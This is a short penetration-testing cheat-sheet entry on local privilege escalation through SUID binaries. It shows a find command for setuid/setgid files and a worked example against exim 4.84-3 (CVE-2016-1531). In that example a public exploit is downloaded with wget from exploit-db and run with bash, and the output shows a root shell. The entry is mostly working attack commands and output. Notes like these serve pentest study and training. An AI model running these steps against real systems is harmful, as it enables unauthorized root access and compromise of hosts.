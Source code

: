# Known exploits
#### Detection 
```bash
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
```

#### Exploitation
- Depends on the vulnerable program
```bash
# Example with a exim version 4.84-3
user@debian:~$ ll /usr/sbin/exim-4.84-3
-rwsr-xr-x 1 root root 963691 May 13  2017 /usr/sbin/exim-4.84-3

# Get the exploit from github
wget https://www.exploit-db.com/raw/39535
bash exploit.sh

# Execute the explooit
user@debian:~$ bash exploit.sh
[ CVE-2016-1531 local root exploit
sh-4.1# id
uid=0(root) gid=1000(user) groups=0(root)
sh-4.1#
```